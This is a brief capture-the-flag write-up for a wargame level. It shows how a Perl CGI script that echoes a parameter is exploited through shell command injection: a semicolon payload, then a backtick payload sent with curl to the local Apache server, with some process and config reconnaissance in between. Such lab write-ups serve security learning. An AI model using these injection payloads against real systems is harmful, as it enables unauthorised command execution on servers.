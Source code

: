 # Level04

We have a perl script which runs `echo` on the param `x` given
`./level04.pl x=hello;whoami` -> We try to add more shell commands, it work but it is run as `level04`

Maybe this script is run by the server.
Lets find out: 
`ps aux` -> apache is running
Lets get the config:
`cat /etc/apache2/ports.conf` -> it listens on 80, 4646, 4747
`curl 'localhost:4747/level04.pl?x=`id`'` -> try to curl it, we put it in `` because in perl what is in it is run in shell.
IT WORKS